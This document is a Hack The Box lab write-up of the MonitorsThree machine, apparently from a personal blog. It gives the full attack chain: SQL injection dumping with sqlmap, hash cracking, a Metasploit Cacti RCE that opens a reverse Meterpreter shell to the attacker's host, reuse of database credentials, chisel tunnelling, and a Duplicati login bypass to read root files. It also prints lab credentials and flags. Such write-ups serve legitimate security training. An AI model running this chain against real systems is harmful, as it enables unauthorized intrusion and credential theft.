 ```yaml
---
layout: post
title: "HTB Linux Medium: MonitorsThree"
description: "MonitorsThree is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```



### Nmap
```bash
nmap -sC -sV -p22,80,8084 10.129.5.197
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 10:36 CEST
Nmap scan report for 10.129.5.197
Host is up (0.017s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

Modify hosts file:
```bash
tail -n 1 /etc/hosts
10.129.5.197 monitorsthree.htb
```


### Enumerate HTTP (Port 80)
Subdomain enumeration:
```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -fl 338

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 338
________________________________________________

[                       [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 14ms]
cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 21ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1980 req/sec :: Duration: [0:00:12] :: Errors: 0 
```

Modify hosts file:
```bash
tail -n 1 /etc/hosts
10.129.5.197 monitorsthree.htb cacti.monitorsthree.htb
```

The forgot_password.php page is vulnerable to error-based SQL injection.
![Pasted image 20240825115029.png](/images/Pasted image 20240825115029.png){: .normal }


Dump DB name using sqlmap.
![Pasted image 20240825115205.png](/images/Pasted image 20240825115205.png){: .normal }


The users table seems to exist, let's enumerate it's columns using sqlmap:
```bash
sqlmap -r pain.req -D "monitorsthree_db" -T "users" -p "username" --dump

[11:58:31] [INFO] retrieved: id
[11:59:06] [INFO] retrieved: username
[12:01:09] [INFO] retrieved: email
[12:02:26] [INFO] retrieved: password
```

Dump the username and password column:
```bash
sqlmap -r pain.req -D "monitorsthree_db" -T "users" -C username,password -p "username" --dump

1e68b6eb86b45f6d92f8f292428f77ac
31a181c8372e3afc59dab863430610e8
```
> Crack second hash using crackstation: "greencacti2001".
{: .prompt-info }


We can now log in to the cacti application using: `admin:greencacti2001`
![Pasted image 20240825122902.png](/images/Pasted image 20240825122902.png){: .normal }


Found Metasploit module to gain RCE: [Link](https://www.rapid7.com/db/modules/exploit/multi/http/cacti_package_import_rce/)
```
msf6 > use exploit/multi/http/cacti_package_import_rce
msf6 exploit(multi/http/cacti_package_import_rce) > set target 1
msf6 exploit(multi/http/cacti_package_import_rce) > set lhost tun0
lhost => 10.10.15.32
msf6 exploit(multi/http/cacti_package_import_rce) > set rhosts cacti.monitorsthree.htb
rhosts => cacti.monitorsthree.htb
msf6 exploit(multi/http/cacti_package_import_rce) > set password greencacti2001
password => greencacti2001
msf6 exploit(multi/http/cacti_package_import_rce) > run

[*] Started reverse TCP handler on 10.10.15.32:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `admin` and password `greencacti2001`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[+] Deleted /var/www/html/cacti/resource/YxrcpwjO.php
[+] Deleted /var/www/html/cacti/resource/DLgdwddkQx
[*] Meterpreter session 1 opened (10.10.15.32:4444 -> 10.129.5.197:37410) at 2024-08-25 12:30:11 +0200
```


### Lateral movement
Found more DB credentials.
```bash
# MySQL creds:
cactiuser:cactiuser
root:cactiroot
```

Logged in to the DB and found the hash of the marcus user:
```bash
MariaDB [cacti]> select username,password from user_auth;
select username,password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.000 sec)
```

Crack the hash:
```bash
john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678910      (?)     
1g 0:00:00:02 DONE (2024-08-25 15:10) 0.3846g/s 180.0p/s 180.0c/s 180.0C/s 12345678910..christina
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Switch to the marcus user using his password:
```bash
www-data@monitorsthree:/tmp$ su marcus
Password: 12345678910

marcus@monitorsthree:/tmp$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

User flag:
```bash
marcus@monitorsthree:~$ cat user.txt
1e7536ccca817eba5ec671893197ec9e
```


### Privilege Escalation
Port forward: 
```bash
# Target
./chisel server -p 9001

# Kali
chisel client 10.129.137.58:9001 8200:localhost:8200
```

We need a password to log in, found sqlite file in /opt folder:
![Pasted image 20240825142751.png](/images/Pasted image 20240825142751.png){: .normal }


Found possible login bypass using the server-passphrase: [Link](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee), intercept request with Burp:
![Pasted image 20240825144414.png](/images/Pasted image 20240825144414.png){: .normal }


Turn the server passphrase into hex:
![Pasted image 20240825144458.png](/images/Pasted image 20240825144458.png){: .normal }


Next modify the following (nonce is response of server):
```
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('<NONCE>') + '<HEX>')).toString(CryptoJS.enc.Base64);
```
![Pasted image 20240825144539.png](/images/Pasted image 20240825144539.png){: .normal }
> On password field add the noncedpwd and URL encode.
{: .prompt-info }


We are in:
![Pasted image 20240825144613.png](/images/Pasted image 20240825144613.png){: .normal }


Add a new backup:
 1. No encryption
 2. Manual path: `/source/home/marcus/`
 3. Source data: `/source/root/`
 4. Schedule: uncheck `Automatically run backups`
 5. Save
 6. Run now

In the home directory of the marcus user we should now find the ZIP files which we can unzip. In the `filelist.json` file, we find the root.txt file name hash:
```bash
unzip *.zip
cat filelist.json

"path":"/source/root/root.txt","hash":"XV5LXvgYgw/TCl+0sh2UWVmX3t4OLLW5DDe0UWrC/Os="
```


Root flag: `87c41a2fa2b7a9f49797ffee1c50bfd5`
```bash
marcus@monitorsthree:~$ cat XV5LXvgYgw_TCl-0sh2UWVmX3t4OLLW5DDe0UWrC_Os\= 
87c41a2fa2b7a9f49797ffee1c50bfd5
```


### Pwned!!!
![Pasted image 20240825154321.png](/images/Pasted image 20240825154321.png){: .normal }